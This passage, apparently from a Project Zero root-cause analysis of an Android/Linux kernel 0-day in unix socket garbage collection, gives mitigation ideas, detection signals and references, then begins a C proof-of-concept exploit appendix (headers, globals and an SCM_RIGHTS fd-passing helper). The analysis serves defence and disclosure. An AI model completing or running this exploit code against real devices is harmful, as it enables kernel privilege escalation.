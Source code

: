 **Ideas to mitigate the exploit flow:** CONFIG_SLAB_FREELIST_RANDOM should be a required mitigation for Android to reduce the possibility of heap shaping.

**Other potential improvements:** Documenting the precise semantics of the lifecycle states and reference states of complicated kernel structures (e.g. struct file).

### 0-day detection methods

What are potential detection methods for similar 0-days? Meaning are there any ideas of how this exploit or similar exploits could be detected **as a 0-day**?

Potential signal: a program generates a number of garbage objects, with other suspicious threads that pin different cpu core and tweak task affinity.

## Other References
*  ["The Quantum State of Linux Kernel Garbage Collection"](https://googleprojectzero.blogspot.com/2022/08/the-quantum-state-of-linux-kernel.html) by Xingyu Jin on Project Zero Blog

## Appendix

```c
// aarch64-linux-gnu-gcc-10 poc.c -o poc -static -lpthread
#define _GNU_SOURCE /* See feature_test_macros(7) */
#include <fcntl.h>
#include <pthread.h>
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/resource.h>
#include <sys/socket.h>
#include <sys/time.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <time.h>
#include <unistd.h>
 
#define __int64 long
#define __int8 char
 
int sv[2];
pthread_mutex_t condition_mutex_recvmsg;
pthread_mutex_t condition_mutex_recv;
int g_victim_sock_fd;
pthread_mutex_t condition_mutex_gc;
pthread_cond_t condition_cond_gc;
pthread_cond_t condition_cond_recvmsg;
 
// helpers
static void send_fd(int socket, int fd)  // send fd by socket
{
  struct msghdr msg = {0};
  char buf[CMSG_SPACE(sizeof(fd))];
  memset(buf, '\0', sizeof(buf));
  struct iovec io = {.iov_base = "", .iov_len = 1};
  msg.msg_iov = &io;
  msg.msg_iovlen = 1;
  msg.msg_control = buf;
  msg.msg_controllen = sizeof(buf);
  struct cmsghdr *cmsg = CMSG_FIRSTHDR(&msg);
  cmsg->cmsg_level = SOL_SOCKET;
  cmsg->cmsg_type = SCM_RIGHTS;
  cmsg->cmsg_len = CMSG_LEN(sizeof(fd));
```